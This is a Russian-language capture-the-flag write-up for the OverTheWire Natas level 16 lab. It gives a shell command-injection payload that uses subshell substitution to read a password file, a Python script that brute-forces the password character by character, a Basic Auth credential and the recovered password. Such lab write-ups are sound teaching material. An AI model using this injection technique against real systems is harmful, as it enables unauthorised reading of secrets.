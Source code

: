 все свелось к следующему пэйлоуду
```bash
$(
	if grep -q ^{password} /etc/natas_webpass/natas17
	then
		echo Christianities
	else
		echo Englishing 
	fi
		exit 0
)

```
где $(...) - subshell, который выполнится при подстановке в
(все переносы заменяются либо на \n либо на %0A  в зависимости от контекста исполнения)
```bash
grep -i \"$key\" dictionary.txt
```
как итог, grep выведет Christianities если пароль частично подходит
и Englishing если не подходит

остается только перебирать по 1 букве пароль
```python
from requests import get
from string import ascii_lowercase, ascii_uppercase 
url = "http://natas16.natas.labs.overthewire.org"

params = {
	"needle" : "$(if grep -q ^{password} /etc/natas_webpass/natas17 \n then \n echo Christianities \n \n else echo Englishing \n fi \n exit 0)"
}

header = {
	"Authorization": "Basic bmF0YXMxNjpoUGtqS1l2aUxRY3RFVzMzUW11WEw2ZURWZk1XNHNHbw=="
}

letters =  ascii_lowercase + ascii_uppercase + '0123456789'

current_password = ''
while True:
	srabotka = False
	for let in letters:
		current_params = params.copy()
		current_params['needle'] = current_params['needle'].format(password = current_password + let)
		resp = get(url, params=current_params, headers=header)
		if 'Christianities' in resp.text:
			current_password += let
			srabotka = True
			print(current_password)
			break

	if not srabotka:
		break
```

результат:
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC